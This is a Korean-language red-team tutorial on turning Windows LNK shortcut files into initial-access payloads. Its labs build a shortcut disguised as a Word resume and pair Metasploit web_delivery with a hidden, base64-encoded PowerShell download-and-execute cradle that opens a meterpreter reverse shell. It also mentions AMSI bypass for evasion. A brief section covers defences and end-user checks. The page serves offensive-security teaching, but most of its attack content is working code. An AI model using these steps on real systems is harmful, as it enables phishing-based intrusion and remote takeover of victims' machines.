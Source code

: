 # LNK

윈도우의 바로가기 파일은 `.LNK` 확장자를 갖고 있으며, 최대 255자의 `targetpath` 파라미터와 4096자의 `argument` 를 실행할 수 있다. 초기 침투 시 단일 파일로 사용될 수도 있지만, 짧은 커맨드 길이 때문에 다른 페이로드들을 실행시키는데 더 자주 사용된다.

수 많은 조합들이 있지만, 자주 사용 되는 조합은 다음과 같다.

* lnk -> Powershell -> 인 메모리 실행
* lnk -> .dll download -> DLL side loading / DLL hijacking / LOLBAS with regsvr32.dll
* lnk -> Powershell -> HTA
* lnk -> .exe + DLL sideloading

DLL 사이드로딩과 관련된 APT 29의 LNK + DLL Sideloading 기법은 다음 페이지에서 볼 수 있다 (TODO)

### 실습

다음은 `cmd.exe` 바이너리를 실행하는 간단한 LNK 파일을 만드는 파워쉘 명령어다.

```
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\opt\lnk\Choi_Resume_CV_Dialog.lnk")
$link.windowstyle = "7"
$link.targetpath = "%windir%/system32/cmd.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "/c start cmd.exe"
$link.save()
```

마이크로소프트 워드의 아이콘을 갖은 LNK 파일을 생성해낸다. 오른쪽 클릭해서 shortcut을 확인해보면 `Target` 에 위에서 만든 페이로드인 `%windir%/system32/cmd.exe` 를 실행한다.

![](<../../.gitbook/assets/image (50).png>)

### 실습 - 2

다음은 파워쉘 페이로드를 가져와 메모리상에서 실행하는 방법이다. 악용을 막기 위해 AMSI bypass 등은 실행하지 않는다. 먼저 개념 증명용 페이로드를 위해 메타스플로잇을 사용한다.

```
msfconsole 
use exploit/multi/script/web_delivery
set pyaload windows/x64/meterpreter/reverse_https 
set lhost <ip> 
set lport <port> 
exploit 

[*] Exploit running as background job 5.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.40.182:443
[*] Using URL: http://192.168.40.182:8080/3XQSv3
[*] Server started.
[*] Run the following command on the target machine:
msf6 exploit(multi/script/web_delivery) > powershell.exe -nop -w hidden -e <....>
```

웹 딜리버리를 실행시키면 스테이저 파일이 호스팅된 URL이 나온다. 위 예시의 경우 `http://192.168.40.182:8080/3XQSv3` 여기에 스테이저가 호스팅 되어 있다. 따라서 해당 파일을 메모리상에서 실행하는 LNK 파일을 만들어준다.

```
$command = 'iex(new-object net.webclient).downloadstring("http://192.168.40.182:8080/3XQSv3")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\testdefender\Choi_Resume.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "-Nop -w hidden -enc $($encodedCommand)"
$link.save()
```

작전 보안과 방어 우회를 위해서는 호스팅 되어있는 스테이저 파일에 AMSI 우회 코드를 넣어주면 된다. 이 실습은 개념 증명용이니 넘어간다. 해당 LNK 파일을 만들고 실행하면 리버스 쉘을 받을 수 있다.

### 대응 방안

LNK 파일은 윈도우의 기본적인 바로가기 파일이기 때문에 기술적으로 비활성화 시킬수는 없다. 단, LNK 파일의 `targetPath` 과 `arugments` 에 들어가는 페이로드는 엔드포인트의 디스크위에 쓰일 수 밖에 없다. 따라서 AV/EDR 등의 엔드포인트 방어 솔루션들이 LNK 파일을 잘 분석한다면 충분히 막을 수 있을 것이다. 실제로 간단한 파워쉘 페이로드를 실행시키려고 하면 왠만한 페이로드들은 모두 막힌다.

엔드 유저의 입장에서는 LNK 파일에 주의한다. LNK 파일은 기본적으로 확장자가 보이지 않기 때문에 파일 익스플로러에서 `Shortcut` 혹은 `바로가기` 가 있다면 오른쪽 클릭을 해서 `TargetPath` 를 한 번 살펴보는 습관을 들인다.

![](<../../.gitbook/assets/image (118).png>)

### 레퍼런스

{% embed url="https://www.mcafee.com/blogs/other-blogs/mcafee-labs/rise-of-lnk-shortcut-files-malware/" %}

{% embed url="https://docs.google.com/viewerng/viewer?url=https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf" %}
